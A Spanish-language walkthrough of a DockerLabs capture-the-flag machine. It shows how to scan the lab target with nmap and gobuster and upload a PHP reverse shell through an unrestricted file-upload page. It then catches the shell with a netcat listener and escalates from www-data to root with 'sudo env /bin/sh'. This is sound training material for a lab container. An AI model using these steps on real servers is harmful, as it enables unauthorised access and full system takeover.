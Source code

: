 ## WRITEUP DE LA MAQUINA BREACKMYSSH DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con la herramienta Nmap para ver cuales estan abiertos y que servicios y caraterísiticas muestran.
```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-15 11:11 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```
Observamos que el puerto 80 del servicio http esta abierto, por ello al ser el unico puerto abierto por lógica intentaremos escalar por ahí. En cualquier buscador ponemos la dirección ip, en este caso 172.17.0.2, nos muestra una pagina web donde se puede subir archivos:
<br><br>
![Foto de la pagina web](/fotos/upload.JPG)
<br><br><br>
Aqui se dispersa la cosa, ya que vamos a tirar por acceder a la máquina víctima subiendo un archivo php que contenga una reverse shell, para ello hay muchas formas, todas se parecen en ciertas cosas, pero en este caso la voy a hacer de una manera muy sencilla.
<br>
Pero antes de comenzar con la reverse shell, hay que averiguar donde se encuentra y como se llama el directorio donde se alamecenan los archivos que subamos.
<br>
Para ello vamos a hacer fuzzing con la herramienta gobuster (se puede hacer igual con herramientas como wfuzz entre otras)
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
Progress: 45155 / 441122 (10.24%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 48897 / 441122 (11.08%)
===============================================================
Finished
===============================================================
```
Observamos que nos saca un directorio que destaca, ya que encima muestra un enlace, hablamos del directorio "172.17.0.2/uploads/". Una vez llegados aqui volvemos al tema de la reverse shell, ahora si.
Vamos a la pagina https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php y descargamos el archivo php, lo abrimos en la terminal con alguna herramientas de edicion de texto como nano. Hay dos lineas donde pone "CHANGE THIS" ahi deberias poner la ip de vuestra máquina anfitriona y el puerto:
<br><br>
![Foto del codigo de reverse shell](/fotos/resaltado.JPG)
<br><br>
Subimos este archivo a la pagina víctima. <br>Para estar seguros de que se ha subido, con esta url  "172.17.0.2/uploads/" veremos que se encuentra el archivo almacenado:
<br><br>
![Foto de la pagina web](/fotos/dirupload.JPG)
<br><br>
Antes de ejecutar la reverse shell, tenemos que ejecutar la herramienta netcat para ponernos en escucha, siempre hay que poner obviamente el mismo puerto que hemos puesto anteriormente en el archivo php que hemos editado:

```shell
└─$ nc -lvnp 4444                       
listening on [any] 4444 ...
```
"nc" es la abreviatura de netcat, una herramienta de red que se puede usar para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP.
<br>
-l: Espere conexiones entrantes en lugar de intentar conectarse a otro sistema.
<br>
-v: Muestre información detallada sobre lo que está sucediendo.
<br>
-n: No realice la resolución de nombres de host, solo use direcciones IP.
<br>
-p 4444: Escuche en el puerto 4444
<br><br>
Una vez estamos en escucha, en la url escribimos el nombre del archivo "172.17.0.2/uploads/php-reverse-shell.php", la pagina deberia quedarse en blanco cargando:

```shell
connect to [10.0.2.15] from (UNKNOWN) [172.17.0.2] 41216
Linux 4419c3b05405 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 17:55:13 up  6:18,  0 users,  load average: 0.34, 0.41, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Ya somos el usuario "www-data", la idea es llegar a ser root pero antes de esto, debemos hacer el llamado "tratamiento de terminal", se refiere a mejorar la funcionalidad y usabilidad de la shell que has obtenido. Ya que cuando te conectas a una máquina víctima a través de una reverse shell, es común que la sesión no se comporte como una terminal interactiva completa. Esto puede limitar tu capacidad para usar ciertos comandos.
<br><br>
Tratamiento de terminal paso a paso:
<br><br>
1 - "script /dev/null -c bash" - El comando script inicia una sesión de terminal grabada en el archivo especificado (/dev/null en este caso, que descarta la salida). La opción -c bash ejecuta bash dentro de esta sesión.

```shell
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@4419c3b05405:/$ 
```
2 - "Control + z" - Suspende temporalmente la sesión de la shell actual y devuelve el control al shell principal, para poner la sesion en segundo plano.
<br><br>
3 - "stty raw -echo; fg" - Configura la terminal para que pase las entradas crudas (raw) y desactiva el eco (-echo), lo que significa que los caracteres que escribes no se mostrarán. Esto mejora la interacividad de la shell.

```shell
└─$ stty raw -echo; fg

[1]  + continued  nc -lvnp 4444
```
4 - "reset xterm" - Debido al paso anterior parece que la terminal se ha rayado, pero no, hay que ejecutar "reset xterm" aunque el cursor este en medio de la terminal.Este comando  restablece la terminal a sus valores predeterminados, conseguimos limpiar y reconfigura la terminal para que funcione correctamente.
<br><br>
5 - "export TERM=xterm" - Establece la variable de entorno TERM a xterm, lo que informa a los programas terminales sobre el tipo de terminal que estás usando. Conseguimos que la terminal interprete correctamente los comandos y el formato de salida.

```shell
www-data@4419c3b05405:/$ export TERM=xterm
```
6 - "export SHELL=bash" - Establece la variable de entorno SHELL a bash, lo que informa al sistema que estás utilizando bash como shell. Puede ayudar a algunos programas y scripts a comportarse correctamente, asumiendo que bash es tu shell.

```shell
www-data@4419c3b05405:/$ export SHELL=bash
```
Una vez hemos completado el "tratamiento de terminal" toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).
<br>

```shell
www-data@4419c3b05405:/$ sudo -l
Matching Defaults entries for www-data on 4419c3b05405:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 4419c3b05405:
    (root) NOPASSWD: /usr/bin/env
```
Esta linea es la que nos interesa "(root) NOPASSWD: /usr/bin/env": significa que el usuario puede ejecutar el comando /usr/bin/env con privilegios de superusuario (root) sin necesidad de proporcionar una contraseña.
<br>
Para escalar privilegios nos aprovecharemos de "/usr/bin/env" para ser root, para ello nos metemos en la pagina https://gtfobins.github.io/#env y en la opcion de "env" pinchamos en el recuadro de "Sudo", copiamos el comando que nos aparece "sudo env /bin/sh" y ejecutamos.

```shell
www-data@4419c3b05405:/$ sudo env /bin/sh
# whoami
root
# 
```
Ya esta, estamos dentro, somos root, muchas gracias.